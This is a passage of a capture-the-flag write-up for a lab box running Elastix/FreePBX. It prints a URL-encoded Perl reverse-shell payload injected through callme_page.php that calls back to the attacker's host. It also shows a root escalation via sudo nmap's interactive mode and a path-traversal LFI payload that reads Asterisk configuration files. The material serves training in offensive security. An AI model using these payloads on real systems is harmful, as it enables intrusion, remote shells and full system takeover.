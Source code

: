 I don't even know the range for extensions... decided to try in blocks, started in the first 300 (and I had to insert a timeout, because the failed calls where taking to much time)
```bash
$ for ext in {0..300}; do timeout 0.2s wget --no-check-certificate "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=$ext@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.15%3a443%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A" -O payload.html; done
```
waited a few seconds and the shell pop up in the listener (later I ran some more scripts and found out that the correct extension was 233)
```
$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.7] 58913
whoami
asterisk
```
not root, have to privesc...

luckily, the python script has comments on how to do this
```
$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.7] 58913
whoami
asterisk
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```
with a little bit of luck guessing the extension, I got root!

Notes: after the conclusion of the box I found online some tools that could be used to find the extension needed for the payload. Look at `svwar` from [sipvicious](https://github.com/EnableSecurity/sipvicious), a tool that *"identifies working extension lines on a PBX. A working extension is one that can be registered. Also tells you if the extension line requires authentication or not."*. Also, after google `elastix extensions configuration files` and using the LFI from above, I found the file `extensions.conf`, that leed me to file `extensions_additional.conf` and from that one I found the desired extension, using the payload:
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/asterisk/extensions_additional.conf%00&module=Accounts&action
```

## Getting the user flag with LFI

Another way to solve part of this box involves using the LFI found earlier.

How about getting the flags directly?
